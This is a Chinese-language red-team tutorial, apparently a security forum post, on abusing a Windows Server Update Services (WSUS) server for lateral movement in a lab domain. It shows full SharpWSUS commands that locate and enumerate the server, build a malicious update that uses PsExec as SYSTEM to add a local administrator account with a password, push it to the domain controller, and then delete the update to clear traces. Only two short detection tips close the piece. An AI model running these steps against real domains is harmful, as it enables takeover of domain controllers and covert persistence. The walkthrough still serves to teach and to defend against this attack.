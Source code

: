 ### Tags: 认证面攻击

WSUS是微软在其网络结构中提供的关于系统补丁更新的一个解决方案，在一些规模较大的域可能会出现。

WSUS可以在域内机器不出网的时候，将客户端绑定到WSUS Server上，将一些补丁或者组件更新时直接放到WSUS Server，通过 HTTP （8530端口）和 HTTPS （8531端口）与 Microsoft 通信来加载补丁，然后推到指定的域机器上，方便运维进行管理。

最常见的情况是单域采用一台WSUS更新服务器进行管理，下图是域内单台WSUS的架构图：

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-a05747d8fd98d274b679e9e5a4a69c3477e08111.png)

下图是域内多台WSUS的架构图：

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-2ee4f4ddc7fd3807275a00e4e78852f87d223a23.png)

0x01 利用
=======

通过SharpWSUS枚举WSUS信息、推送恶意补丁到目标机器进行横向渗透。

0x02 实验环境：
==========

```php
域名：redteam.lab  
​  
1.域内WSUS服务器server2019（机器名：WSUS-1）  
​  
2.域内域控Server2016（机器名：DC2）  
​  
2.域内机器win7（机器名：dm2007）
```

当前环境是拿到了域内win7的权限，然后通过WSUS Server进行横向渗透

定位当前主机WSUS Server
-----------------

1.通过注册表

```php
HKEY\_LOCAL\_MACHINE\\Software\\Policies\\Microsoft\\Windows\\WindowsUpdate
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-73f02b6eae63c36ece4b337ddd4cefd2d3dfd774.png)

2.通过SharpWSUS

```php
SharpWSUS.exe locate
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-76f2dc3b51d457f079c81151580cb6736ac0908d.png)  
由上面的信息收集，可以得到WSUS Server机器名为WSUS-1，然后我们想方设法获得了WSUS-1的机器权限。

- - - - - -

通过WSUS-1枚举WSUS服务的详细信息：

其中包括当前管理的计算机列表、ip、版本信息、上一次更新的时间

```php
SharpWSUS.exe inspect
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-397452c66d1c1a0a39a84b058620699fe2a927d1.png)

可以看到域控（DC2）也在这台WSUS Server 更新的目标内，可以向它推送恶意更新，例如：添加本地管理员用户。

要点
--

1.WSUS横向最不确定的因素是无法控制客户端何时向WSUS Server拉取补丁信息，这个属性通常在域内搭建WSUS的组策略中设置。利用成功与否决定于客户端安装了攻击者提供的恶意补丁。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-92f8353656c72bb1b0f25f8f19b4e6169f37e909.png)

2.WSUS的有效负载必须是Microsoft 签名的二进制文件，并且必须指向磁盘上的某个位置，使 WSUS Server指向该二进制文件。由于需要签名的二进制文件，可以用PsExec.exe 以 SYSTEM 身份执行、RunDLL32在网络共享上运行恶意 DLL等方法进行横向，下面以psexec举例。

横向
--

1.生成一个用psexec执行添加本地管理员组的恶意补丁，其中updateid是补丁的更新id

```php
SharpWSUS.exe create /payload:"C:\\Users\\public\\psexec.exe" /args:"-accepteula -s -d cmd.exe /c 'net user lzz Qq123456.. /add && net localgroup administrators lzz /add'" /title:"demo01"
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-c348a21070d20c83e9c716064bb7109c1d9ffd8a.png)

随着补丁生成，补丁中的二进制文件（psexec.exe）也被保存在WSUS目录中并命名为wuagent.exe

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-ab1d49faf2ae14224e7b85540b810e805eebc945.png)

2.因为WSUS根据组进行管理，所以创建组Demos并将DC2加入Demos，设置恶意补丁作用于Demos

```php
SharpWSUS.exe approve /updateid:ac82689b-f451-4df5-bc1c-3cb653301252 /computername:dc2.redteam.lab /groupname:"Demos"
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-17917c6b8f56cd9a9ec6fe9994c01e7e937d7229.png)

在WSUS Server上也能看到补丁的详细信息

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-190f7cee4764ba4933c9b5698a90d96ce0d041af.png)

3.检查组是否创建

```php
SharpWSUS.exe inspect
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-3b2554f682ce5d3c0d708d4f894b310deaf95d94.png)

同样能在WSUS Server上看到

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-a26e9da9446efcc18dd9c45d5df2dea166e600b4.png)

获取更新状态

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-a83f61ac09d127007f25f351b8c76e4e31982adb.png)

由于开始搭建组策略的时候设置了每天三点客户端更新，到了三点以后可以看到WSUS Server将demo01推送到了dc2上

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-efde9b5e12dac619d3b04baeb16f6175f2483b98.png)

dc2安装更新后，恶意补丁成功创建了本地管理员账户。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-bb245cf978efca500656b3e329cdcb8e2065ec3a.png)

攻击利用成功后，同样利用SharpWSUS删除恶意补丁

```php
SharpWSUS.exe delete /updateid:ac82689b-f451-4df5-bc1c-3cb653301252 /computername:dc2.redteam.lab /groupname:”Demos”
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-d934a481accd4fb2cef8584ac622eb6760878718.png)

可以看到Demos组和id为ac82689b-f451-4df5-bc1c-3cb653301252的补丁demo01被删除。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-3ac72b1202f56991e7e814827c4e0d20bcf355ca.png)

0x03 防范措施
=========

1.最后攻击者成功后wuagent.exe不会被自动删除，可以利用此进行溯源

2.攻击利用会创建新的WSUS组，可以随时监控组的创建和删除定位攻击